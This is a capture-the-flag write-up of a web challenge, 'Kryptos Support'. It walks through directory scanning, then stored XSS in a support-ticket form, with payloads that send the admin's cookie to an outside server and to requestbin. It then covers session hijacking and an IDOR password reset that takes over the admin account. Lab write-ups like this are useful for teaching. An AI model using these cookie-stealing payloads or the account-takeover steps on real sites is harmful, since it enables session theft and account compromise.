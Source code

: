 ```yaml
---
layout: default
title: Kryptos Support
---
```


# [Cyber Apocalypse](index.md) - Web - Kryptos Support

This challenge is a support portal for some kind of vault. The landing page allows the user to enter text in a box and submit this as a ticket for an admin to review. There was no authentication on this page. 

![Kryptos screenshot](web-kryptossupport/screenshot-00.png)

There was a link to the **backend**, which led to a login page.

![Kryptos screenshot](web-kryptossupport/screenshot-01.png)

The login form was not susceptible to a simple SQL injection, so I looked elsewhere.

Using **gobuster** to do a quick scan of the website for different pages and/or API endpoints. I found the following:

```
/admin
/settings
/tickets
/logout
/login
/static
```
`/admin`, `/settings`, and `/tickets` redirected to the login page.

The ticket submit form worked, and when submitting a ticket the page displayed a message indicating that support staff would look at it. 

I noted that the ticket data was submitted to `/api/tickets/add`, so I did some exploring looking for other API endpoints (just manually with Firefox) and did not find much. The login form used `/api/login`, but I was not able to view tickets or logins.

The ticket form did not appear to sanitize it's input, so I decided to try stealing the support staff's cookies with a cross-site scripting attack. A quick google search gave me some example XSS cookie stealing code, which I modified for my own use.

I set up a simple web server on a VM with python, using the following commands:

```
mkdir emptyfolder
cd emptyfolder
python3 -m http.server 1337
```
Then I submitted this javascript code in a ticket, and waited for the response. 

```javscript
<script>var i=new Image;i.src="https://my-ip-address-was-here:1337/?"+document.cookie;</script>
```
The URL of the request contained the cookie information, so I was able to simply copy and paste this from my console window.

Later, I discovered [Requestbin](https://requestbin.io) which would have made this a bit easier, and wouldn't as easily reveal my own IP address.

```javscript
<script>var i=new Image;i.src="https://requestbin.io/1du9x2z1/?"+document.cookie;</script>
```

![Kryptos screenshot](web-kryptossupport/screenshot-03.png)


The cookie data was:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE
```


I noted that the session value was a JWT that can be decoded - each section, separated by periods, is just base64 encoded.
```json
{"alg":"HS256","typ":"JWT"}
```
```json
{"username":"moderator","uid":100,"iat":1652628044}
```
*The last section is not legible, it's a signature for the above data*

I noted that the user was named `moderator` and had a `uid` of `100`.

The JWT's signature wouldn't be valid if I modified the uid or username, so I can't easily exploit those at this point.

In Firefox, I created a cookie named `session` with the value `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE`

In my exploration above, I had found `/tickets`, so with my new cookie I visited that page and was able to view the submitted tickets.


![Kryptos screenshot](web-kryptossupport/screenshot-04.png)

There were two tickets previously submitted which contained some numbers (`000083921` and `000076439`) which I noted for later (but never ended up using). The tickets did not contain names or usernames, so I was not able to get much info from them.


![Kryptos screenshot](web-kryptossupport/screenshot-05.png)

There was a **settings** link, which went to a page that allowed me to change the password of the currently logged in user. Trying this, I was able to reset the password of the **moderator** account. In a "real" engagement, this would make it pretty obvious that the system was compromised, considering the moderator user had just viewed my ticket and was presumably actively using the system, and would notice very quickly that their password had changed to something that they did not know. Luckily, the "moderator" user was just a script because this is just a challenge system, and wouldn't notice a thing.

Using Firefox developer tools, I noticed that changing the password sent a request to the api endpoint `/api/users/update` with the following payload:

```json
{
	"password" : "abc123",
	"uid" : "100"
}
```

Unlike the cookie, there is no cryptographic signature here, so I tried changing the `uid` value to `1`. I figured that in most cases, the admin account will be the first account in the database, so probably would have an ID of 1. I used [Insomnia](https://insomnia.rest/) to send this payload, but I later discovered that Firefox developer tools allow you to edit and re-submit the request, and I could have just used that.

```json
{
	"password" : "abc123",
	"uid" : "1"
}
```

![Kryptos screenshot](web-kryptossupport/screenshot-06.png)

The response from the API was "Password for admin changed successfully", which gave me the admin username.

The "moderator" account clearly had permissions to reset passwords, but the system allowed it to reset *any* user's password, including the admin. Some security probably should have been in place to prevent a user with password reset privileges from resetting passwords of anyone else at the same or higher security levels, or something like that.

Logging out of the moderator account, and into the admin account using `admin` and the password I set granted me access, and displayed the flag.


![Kryptos screenshot](web-kryptossupport/screenshot-07.png)

```
HTB{x55_4nd_id0rs_ar3_fun!!}
```